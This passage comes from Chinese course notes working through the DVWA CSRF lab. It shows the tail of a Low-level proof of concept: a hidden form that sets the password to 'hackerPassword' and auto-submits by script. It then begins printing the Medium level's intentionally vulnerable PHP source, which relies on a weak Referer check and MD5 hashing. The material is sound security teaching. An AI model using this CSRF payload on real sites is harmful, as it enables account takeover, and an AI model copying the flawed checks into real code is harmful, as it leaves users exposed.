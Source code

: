 ```html
                <input type="password" AUTOCOMPLETE="off" name="password_conf" value="hackerPassword"><br />
                <br />
                <input type="submit" id="button" name="Change" value="Change" />
            </form>
            <script>
                document.getElementById("button").click();

            </script>
        </div>
    </body>

</html>

```

点击以后就会发送请求改变用户的密码。

![CSRF](../../../img/课程笔记/网络安全/DVWA训练/4.DVWA_CSRF_All/2.low.png)

$$
\text{Figure 2. Low}
$$

### 3.2. Medium

接下来是`Medium`难度，先看源码。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

```